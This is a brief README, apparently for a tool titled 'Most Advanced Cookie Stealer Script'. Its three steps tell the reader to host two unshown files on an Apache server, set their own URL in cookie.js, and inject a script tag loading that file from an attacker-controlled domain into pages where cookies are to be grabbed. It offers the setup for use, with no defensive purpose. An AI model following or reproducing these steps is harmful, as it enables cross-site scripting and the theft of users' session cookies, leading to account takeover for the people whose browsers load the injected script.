 # Most Advanced Cookie Stealer Script

1. Host the two attached files in an apache server

2. Modify the url with your url in cookie.js

3.  Insert the following code where you want to grab cookie <script src="http://your-domain.com/cookie.js">



